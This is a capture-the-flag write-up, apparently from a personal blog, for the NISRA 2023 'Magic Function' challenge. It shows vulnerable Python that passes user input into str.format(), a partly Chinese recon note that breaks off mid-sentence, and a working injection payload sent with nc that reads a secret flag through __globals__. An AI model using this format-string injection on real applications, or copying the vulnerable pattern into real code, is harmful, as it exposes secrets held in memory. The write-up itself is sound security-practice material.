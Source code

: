 ```yaml
---
title: NISRA 2023 Enlightened - Magic Function
tags: [NISRA, CTF, Misc]

category: "Security/Practice/NISRA/Misc"
---
```


# NISRA 2023 Enlightened - Magic Function
<!-- more -->

## Background
[Magic Function of Python](https://hacktricks.boitatech.com.br/misc/basic-python/magic-methods)

## Source Code
```python=
class Test():
	def __init__(self, email='test@nisra.net'):
		self.info = 'test'
		self.email = email

class Secret():
	flag = open("./NISRA-Enlightened-2023/flag.txt", "r").read().strip()


if __name__ == '__main__':
	email = input('Your email: ')

	if email:
		test = Test(email)
	else:
		test = Test()

	msg = ('this is for {test.info}, please contact ' + email + '.').format(test=test)

	print(msg)
```


## Recon
這一題真的很有趣，但也是算通靈的奇淫怪招，仔細看了一下直覺應該是跟format string有關係，比賽的時候的確有想到，但我當時想的payload有點偏掉了，當時的payload是: `{test.email}.format(test=Test(Secret().flag))`，也就是先傳入Secret().flag給Test這個class，然後再利用format傳入給

## Exploit
```bash
$ echo "{test.__init__.__globals__[Secret].flag}" | nc chall2.nisra.net 43001
Your email: this is for test, please contact NISRA{Ma9ic_pY3h0n_!!???}.
```

Flag: `NISRA{Ma9ic_pY3h0n_!!???}`
